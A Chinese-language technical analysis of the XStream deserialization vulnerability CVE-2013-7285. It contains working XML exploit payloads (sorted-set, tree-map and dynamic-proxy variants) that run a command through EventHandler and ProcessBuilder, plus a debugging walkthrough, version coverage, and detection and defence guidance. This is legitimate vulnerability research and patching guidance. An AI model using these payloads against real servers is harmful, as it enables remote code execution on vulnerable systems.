### CVE-2013-7285

#### 影响范围

1.4.5，1.4.6，1.4.10

Payload:

```xml
<sorted-set>
    <string>foo</string>
    <dynamic-proxy>
        <interface>java.lang.Comparable</interface>
        <handler class="java.beans.EventHandler">
            <target class="java.lang.ProcessBuilder">
                <command>
                    <string>calc.exe</string>
                </command>
            </target>
            <action>start</action>
        </handler>
    </dynamic-proxy>
</sorted-set>
```


# 流程分析

首先来到`AbstractTreeMarshallingStrategy`类,该类中有两个核心方法

> marshal:编组对象图
>
> unarshal:解组对象图



这里通过start()方法进行解组。



调用`HierarchicalStreams.readClassType`方法，从序列化的数据中获取一个真实的class对象。跟进去





其中调用获取调用`aliasForSystemAttribute`方法获取别名。

获取`resolves-to`和`class`判断解析的xml属性值中有没有这两字段。

这里返回为空，继续来看到`com.thoughtworks.xstream.core.util.HierarchicalStreams#readClassType`

为空的话，则走到这里

```java
type = mapper.realClass(reader.getNodeName());
```

获取当前节点的名称，并进行返回对应的class对象




通过`super.realClass`获取到了对应的class然后put到了`realClassCache`中并返回

返回class然后通过`convertAnother`获得对应的Object



跟进`convertAnother`



type为`sortSet`接口的实现类`TreeSet`，

进入`lookupConverterForType`

这里的converters存储着各种转换器





最后看看如何`convert`方法是如何将我们获取到的`converter`和`type`转换为Object的



获取reference别名后，从xml中获取reference标签内容。获取为空则调用`this.getCurrentReferenceKey()`来获取当前标签将当前标签。



进入`super.convert()`



这里调用了converter.unmarshal方法



调用`unmarshalComparator`方法判断是否存在comparator，如果不存在，则返回NullComparator对象。

接下来则是重点

```java
 this.treeMapConverter.populateTreeMap(reader, context, treeMap, unmarshalledComparator);
```



跟进去



这里会读取标签内容，并且获取转换成对应的类，最后将类添加到targer中。

跟进populateMap()，其中调用了populateCollection()函数，用来循环遍历子标签中的元素并添加到集合中，如图是将动态代理标签添加进集合中：



而调用的addCurrentElementToCollection()中，会调用readItem()读取标签内容，这里直接跳过具体的读取步骤，看到是成功获取到了该动态代理类并添加到了target这个Map缓存起来了：



继续跟进去几个函数，会发现调用DynamicProxyConverter.unmarshal()函数，这是由于PoC中含有dynamic-proxy标签会被程序识别并调用对应的DynamicProxyConverter转换器来实现将XML中该标签部分转换成动态代理类对象。而在该转换器的unmarshal()函数中，主要是扫描该标签的内容，然后调用Proxy.newProxyInstance()函数来生成新的动态代理类对象并返回（该动态代理类的target为EventHandler，action为start）：



在上图我们可以看到DynamicProxyConverter.unmarshal()函数中调用了convertAnother()函数来转换得到EventHandler，跟进该函数会发现是调用了ReflectionConverter转换器来进行EventHandler的解析的：



下面继续往下调试，回到populateMap()调用的地方。

调用完populateMap()之后，会判断JVM是否已充分将TreeMap都缓存起来了，然后调用TreeMap类对象resullt的putAll()方法，可看到参数中包含动态代理类，该代理类指向EventHandler类，而该类正如前面介绍时说的那样通过传入target和action参数值来利用反射机制调用了ProcessBuilder(cmd).start()来执行任意命令：



再跟进去调试，调试到TreeMap.put()函数中发现会调用到动态代理类对象$Proxy0的compareTo()方法来比较动态代理类对象和另一个字符串对象：



**由于我们PoC中interface标签写的是`java.lang.Comparable`接口，而该接口声明了一个compareTo()方法，因此当调用了动态代理类对象中的Comparable.compareTo()方法时就能成功动态调用PoC中构造的恶意动态代理类，从而通过反射机制达到任意代码执行。**

再往下，会调用到EventHandler.invoke()，其中会通过安全管理器获得权限来执行EventHandler.invokeInternal()函数，可以看到proxy参数是动态代理类对象、\9-]参数是compareTo方法、arguments参数是包含”foo”字符串的数组：



在EventHandler.invokeInternal()函数中，获取到目标动态代理类对象的实际方法后，就直接通过反射机制调用，从而导致弹计算器：




##### 无法通杀<=1.3.1版本的原因

<=1.3.1以下版本不能成功识别出根标签sorted-set的类，也就是说低版本并不支持sorted-set：

```
com.thoughtworks.xstream.mapper.CannotResolveClassException: sorted-set : sorted-set
```

##### 无法通杀1.4-1.4.5版本的原因

先看下TreeSetConverter.unmarshal()中的代码逻辑，当sortedMapField不为null时，treeMap才有可能不为null，treeMap不为null才能进入populateTreeMap()：



在1.4-1.4.4版本中，sortedMapField默认为null，因此无法成功利用：



而在>=1.4.5版本中，sortedMapField默认不为null，因此能成功利用：



##### 无法通杀1.4.7-1.4.9版本的原因

在1.4.7版本的Change Log中有这么一句:

> java.bean.EventHandler no longer handled automatically because of severe security vulnerability.

运行PoC会报以下错误：

```
Exception in thread "main" com.thoughtworks.xstream.converters.ConversionException: No converter specified for class java.beans.EventHandler
---- Debugging information ----
class               : com.thoughtworks.xstream.mapper.DynamicProxyMapper$DynamicProxy
required-type       : com.thoughtworks.xstream.mapper.DynamicProxyMapper$DynamicProxy
converter-type      : com.thoughtworks.xstream.converters.extended.DynamicProxyConverter
path                : /sorted-set/dynamic-proxy/handler
class[1]            : java.util.TreeSet
converter-type[1]   : com.thoughtworks.xstream.converters.collections.TreeSetConverter
version             : 1.4.7
-------------------------------
```

在ReflectionConverter.canConvert()函数中添加了对EventHandler类的过滤，导致不能成功利用：



##### 为何1.4.10能够成功

我们知道1.4.7-1.4.9版本中是因为在ReflectionConverter.canConvert()函数中添加了对EventHandler类的过滤导致不能成功利用。

但是我们在1.4.10中发现ReflectionConverter.canConvert()函数中把对EventHandler类的过滤又去掉了：

```
public boolean canConvert(Class type) {
	return (this.type != null && this.type == type || this.type == null && type != null) && this.canAccess(type);
}
```

在利用的过程中虽然能够成功触发，但是控制台会输出提示未初始化XStream安全框架、会存在漏洞风险：

```
Security framework of XStream not initialized, XStream is probably vulnerable.
```

##### 看看1.4.11如何修补的

直接运行，先提醒未初始化安全框架，然后报错显示安全警告、拒绝反序列化目标类：

```
Security framework of XStream not initialized, XStream is probably vulnerable.
Exception in thread "main" com.thoughtworks.xstream.converters.ConversionException: Security alert. Unmarshalling rejected.
---- Debugging information ----
message             : Security alert. Unmarshalling rejected.
class               : java.beans.EventHandler
required-type       : java.beans.EventHandler
converter-type      : com.thoughtworks.xstream.XStream$InternalBlackList
path                : /tree-map/entry[2]/dynamic-proxy/handler
class[1]            : com.thoughtworks.xstream.mapper.DynamicProxyMapper$DynamicProxy
required-type[1]    : com.thoughtworks.xstream.mapper.DynamicProxyMapper$DynamicProxy
converter-type[1]   : com.thoughtworks.xstream.converters.extended.DynamicProxyConverter
class[2]            : java.util.TreeMap
required-type[2]    : java.util.TreeMap
converter-type[2]   : com.thoughtworks.xstream.converters.collections.TreeMapConverter
version             : 1.4.11
-------------------------------
```

可以看到，1.4.11以后的版本XStream新增了一个Converter类InternalBlackList，可以看到其实现的canConverter()方法中对EventHandler类、以”javax.crypto.”开头的类、以”$LazyIterator”结尾的类都进行了匹配，而其marshal()和unmarshal()方法都是直接抛出异常的，换句话说就是匹配成功的直接抛出异常即黑名单过滤：

```
private class InternalBlackList implements Converter {
    private InternalBlackList() {
    }

    public boolean canConvert(Class type) {
    	return type == Void.TYPE || type == Void.class || !XStream.this.securityInitialized && type != null && (type.getName().equals("java.beans.EventHandler") || type.getName().endsWith("$LazyIterator") || type.getName().startsWith("javax.crypto."));
    }

    public void marshal(Object source, HierarchicalStreamWriter writer, MarshallingContext context) {
    	throw new ConversionException("Security alert. Marshalling rejected.");
    }

    public Object unmarshal(HierarchicalStreamReader reader, UnmarshallingContext context) {
    	throw new ConversionException("Security alert. Unmarshalling rejected.");
    }
}
```

在XStream.setupConverters()函数中注册转换器时，InternalBlackList的优先级为PRIORITY_LOW高于ReflectionConverter的优先级PRIORITY_VERY_LOW，因此会优先判断：



因此，在后面的调试中会发现，当要寻找EventHandler类的转换器时，会返回InternalBlackList转换器：



当调用该InternalBlackList转换器的unmarshal()方法时，直接抛出异常：



#### 基于tree-map的PoC

##### 适用范围

通杀1.4.x系列有漏洞的版本，即<=1.4.6或=1.4.10。

##### 复现

payload2.xml：

```
<tree-map>
    <entry>
        <string>fookey</string>
        <string>foovalue</string>
    </entry>
    <entry>
        <dynamic-proxy>
            <interface>java.lang.Comparable</interface>
            <handler class="java.beans.EventHandler">
                <target class="java.lang.ProcessBuilder">
                    <command>
                        <string>calc.exe</string>
                    </command>
                </target>
                <action>start</action>
            </handler>
        </dynamic-proxy>
        <string>good</string>
    </entry>
</tree-map>
```

运行触发：



可以看到，该payload涉及到的转换器是TreeMapConverter，至于其整个调用过程以及原理和前面sorted-set的差不多，只是转换器不一样了，这里就不再调试分析了。

##### 为何能通杀1.4-1.4.5版本

因为本次payload用的是TreeMapConverter转换器，和前面TreeSetConverter不一样，这里不存在类似sortedMapField是否为null的限制，因为两个转换器的代理逻辑完全不一样，调试一下就清楚了。

##### 无法通杀<=1.3.1版本的原因

运行PoC会报错显示TreeMap没有包含comparator元素，即不支持PoC中两个子标签元素调用compareTo()进行比较，因此无法利用：

```
com.thoughtworks.xstream.converters.ConversionException: TreeMap does not contain <comparator> element
```

在TreeMapConverter.unmarshal()中看到，判断子标签节点是否有comparator，若两个if判断条件都不满足则直接抛出异常，不会进入后面的populateMap()函数，因此也不会成功触发：


##### 无法通杀1.4.7-1.4.9版本的原因

和前面基于sorted-set的PoC的原因是一样的。

#### 基于接口的PoC

##### 适用范围

通杀1.4.x系列有漏洞的版本，即<=1.4.6或=1.4.10。但是缺点是，我们必须得知道服务端反序列化得到的是啥接口类。

##### 接口特征

一般的，基于接口类型的payload，是需要按照接口形式来编写的，即interface标签内容指向接口类。比如[官网](http://x-stream.github.io/CVE-2013-7285.html)给的例子，其中Contact是个接口类：

```
<contact>
  <dynamic-proxy>
    <interface>org.company.model.Contact</interface>
    <handler class='java.beans.EventHandler'>
      <target class='java.lang.ProcessBuilder'>
        <command>
          <string>calc.exe</string>
        </command>
      </target>
      <action>start</action>
    <handler>
  </dynamic-proxy>
</contact>
XStream xstream = new XStream();
Contact contact = (Contact)xstream.fromXML(xml);
```

这种方式是基于服务端解析XML之后会直接调用到XML中interface标签指向的接口类声明的方法，因此这种情形下必然会触发动态代理类对象的恶意方法。

##### 复现

下面我们试下这个payload，ipayload.xml，这个更为简单直接，不需要在dynamic-proxy外再加其他的转换器，直接利用的DynamicProxyConverter转换器来识别：

```
<dynamic-proxy>
    <interface>IPerson</interface>
    <handler class="java.beans.EventHandler">
        <target class="java.lang.ProcessBuilder">
            <command>
                <string>calc.exe</string>
            </command>
        </target>
        <action>start</action>
    </handler>
</dynamic-proxy>
```

修改Test.java，将Person类改为IPerson接口类，和ipayload.xml中的interface标签内容相对应：

```
public class Test {
    public static void main(String[] args) throws FileNotFoundException {
//        String xml = new Scanner(new File("ipayload.xml")).useDelimiter("\\Z").next();
        FileInputStream xml = new FileInputStream("ipayload.xml");
        XStream xstream = new XStream(new DomDriver());
        IPerson p = (IPerson) xstream.fromXML(xml);
        p.output();
    }
}
```

还有一点需要注意的是，IPerson接口类必须定义成public即公有的，否则程序运行会报错显示没有权限访问该接口类。

成功触发：



##### 无法通杀<=1.3.1版本的原因

尝试攻击会报以下错误，说是不能创建EventHandler类对象、因为其没有无参构造函数：

```
Exception in thread "main" com.thoughtworks.xstream.converters.ConversionException: Cannot construct java.beans.EventHandler as it does not have a no-args constructor : Cannot construct java.beans.EventHandler as it does not have a no-args constructor
---- Debugging information ----
message             : Cannot construct java.beans.EventHandler as it does not have a no-args constructor
cause-exception     : com.thoughtworks.xstream.converters.reflection.ObjectAccessException
cause-message       : Cannot construct java.beans.EventHandler as it does not have a no-args constructor
class               : com.thoughtworks.xstream.mapper.DynamicProxyMapper$DynamicProxy
required-type       : java.beans.EventHandler
path                : /dynamic-proxy/handler
-------------------------------
```

##### 无法通杀1.4.7-1.4.9版本的原因

和前面基于sorted-set的PoC的原因是一样的。

## 0x03 检测与防御

### 检测方法

1. 查看目标环境中是否有存在漏洞版本的XStream的jar包，即1.4.x系列版本中<=1.4.6或=1.4.10；
2. 全局搜索是否存在`Xstream.fromXML(`的地方，若存在则进一步分析该参数是否外部可控；若为1.4.10版本的还需要确认是否开启了安全配置进行了有效的防御；

### 防御方法

1. 将XStream升级到最新版，即1.4.11之后的版本；

2. 若只想手动修改代码，可以参考1.4.7-1.4.9版本的修补方法，在ReflectionConverter.canConvert()函数中添加了对包括EventHandler等类的过滤，当然这只是黑名单过滤方式，存在绕过风险：

   ```
   public boolean canConvert(Class type) {
       return ((this.type != null && this.type == type) || (this.type == null && type != null && type != eventHandlerType))
       && canAccess(type);
   }
   ```

3. 若版本号>=1.4.7，XStream提供了一个安全框架供用户使用，但必须手工设置，可以调用addPermission()、allowTypes()、denyTypes()等对某些类进行限制，即建立黑白名单机制进行过滤：

   ```
   XStream.addPermission（TypePermission）;
   XStream.allowTypes（Class []）;
   XStream.allowTypes（String []）;
   XStream.allowTypesByRegExp（String []）;
   XStream.allowTypesByRegExp（Pattern []）;
   XStream.allowTypesByWildcard（String []）;
   XStream.allowTypeHierary（Class）;
   XStream.denyPermission（TypePermission）;
   XStream.denyTypes（Class []）;
   XStream.denyTypes（String []）;
   XStream.denyTypesByRegExp（String []）;
   XStream.denyTypesByRegExp（Pattern []）;
   XStream.denyTypesByWildcard（String []）;
   XStream.denyTypeHierary（Class）;
   ```

   具体的参考：http://x-stream.github.io/security.html

4. 若是1.4.10版本，提供了XStream.setupDefaultSecurity()函数来设置XStream反序列化类型的默认白名单，其本质还是调用XStream提供的安全框架里的addPermission()、allowTypes()、denyTypes()等函数，区别在于自己定义了一些默认白名单，**但必须手工设置，否则还是存在漏洞**：

   ```
   public static void setupDefaultSecurity(final XStream xstream) {
       if (xstream.insecureWarning) {
           xstream.addPermission(NoTypePermission.NONE);
           xstream.addPermission(NullPermission.NULL);
           xstream.addPermission(PrimitiveTypePermission.PRIMITIVES);
           xstream.addPermission(ArrayTypePermission.ARRAYS);
           xstream.addPermission(InterfaceTypePermission.INTERFACES);
           xstream.allowTypeHierarchy(Calendar.class);
           xstream.allowTypeHierarchy(Collection.class);
           xstream.allowTypeHierarchy(Map.class);
           xstream.allowTypeHierarchy(Map.Entry.class);
           xstream.allowTypeHierarchy(Member.class);
           xstream.allowTypeHierarchy(Number.class);
           xstream.allowTypeHierarchy(Throwable.class);
           xstream.allowTypeHierarchy(TimeZone.class);
   
           Class type = JVM.loadClassForName("java.lang.Enum");
           if (type != null) {
               xstream.allowTypeHierarchy(type);
           }
           type = JVM.loadClassForName("java.nio.file.Path");
           if (type != null) {
               xstream.allowTypeHierarchy(type);
           }
   
           final Set types = new HashSet();
           types.add(BitSet.class);
           types.add(Charset.class);
           types.add(Class.class);
           types.add(Currency.class);
           types.add(Date.class);
           types.add(DecimalFormatSymbols.class);
           types.add(File.class);
           types.add(Locale.class);
           types.add(Object.class);
           types.add(Pattern.class);
           types.add(StackTraceElement.class);
           types.add(String.class);
           types.add(StringBuffer.class);
           types.add(JVM.loadClassForName("java.lang.StringBuilder"));
           types.add(URL.class);
           types.add(URI.class);
           types.add(JVM.loadClassForName("java.util.UUID"));
           if (JVM.isSQLAvailable()) {
               types.add(JVM.loadClassForName("java.sql.Timestamp"));
               types.add(JVM.loadClassForName("java.sql.Time"));
               types.add(JVM.loadClassForName("java.sql.Date"));
           }
           if (JVM.is18()) {
               xstream.allowTypeHierarchy(JVM.loadClassForName("java.time.Clock"));
               types.add(JVM.loadClassForName("java.time.Duration"));
               types.add(JVM.loadClassForName("java.time.Instant"));
               types.add(JVM.loadClassForName("java.time.LocalDate"));
               types.add(JVM.loadClassForName("java.time.LocalDateTime"));
               types.add(JVM.loadClassForName("java.time.LocalTime"));
               types.add(JVM.loadClassForName("java.time.MonthDay"));
               types.add(JVM.loadClassForName("java.time.OffsetDateTime"));
               types.add(JVM.loadClassForName("java.time.OffsetTime"));
               types.add(JVM.loadClassForName("java.time.Period"));
               types.add(JVM.loadClassForName("java.time.Ser"));
               types.add(JVM.loadClassForName("java.time.Year"));
               types.add(JVM.loadClassForName("java.time.YearMonth"));
               types.add(JVM.loadClassForName("java.time.ZonedDateTime"));
               xstream.allowTypeHierarchy(JVM.loadClassForName("java.time.ZoneId"));
               types.add(JVM.loadClassForName("java.time.chrono.HijrahDate"));
               types.add(JVM.loadClassForName("java.time.chrono.JapaneseDate"));
               types.add(JVM.loadClassForName("java.time.chrono.JapaneseEra"));
               types.add(JVM.loadClassForName("java.time.chrono.MinguoDate"));
               types.add(JVM.loadClassForName("java.time.chrono.ThaiBuddhistDate"));
               types.add(JVM.loadClassForName("java.time.chrono.Ser"));
               xstream.allowTypeHierarchy(JVM.loadClassForName("java.time.chrono.Chronology"));
               types.add(JVM.loadClassForName("java.time.temporal.ValueRange"));
               types.add(JVM.loadClassForName("java.time.temporal.WeekFields"));
           }
           types.remove(null);
   
           final Iterator iter = types.iterator();
           final Class[] classes = new Class[types.size()];
           for (int i = 0; i < classes.length; ++i) {
               classes[i] = (Class)iter.next();
           }
           xstream.allowTypes(classes);
       } else {
           throw new IllegalArgumentException("Security framework of XStream instance already initialized");
       }
   }
   ```

   试下效果，在前面的Demo我们添加这个默认白名单过滤：

   ```
   public class Test {
       public static void main(String[] args) throws FileNotFoundException {
           FileInputStream xml = new FileInputStream("ipayload.xml");
           XStream xstream = new XStream(new DomDriver());
           // 使用默认白名单过滤
           XStream.setupDefaultSecurity(xstream);
           Person p = (Person) xstream.fromXML(xml);
           p.output();
       }
   }
   ```

   运行后会报错，显示禁止反序列化动态代理类，成功修补了漏洞：

   

# 参考

https://www.mi1k7ea.com/2019/10/21/XStream%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/#%E5%BD%B1%E5%93%8D%E8%8C%83%E5%9B%B4

https://www.cnblogs.com/nice0e3/p/15046895.html#%E6%BC%8F%E6%B4%9E%E7%AE%80%E4%BB%8B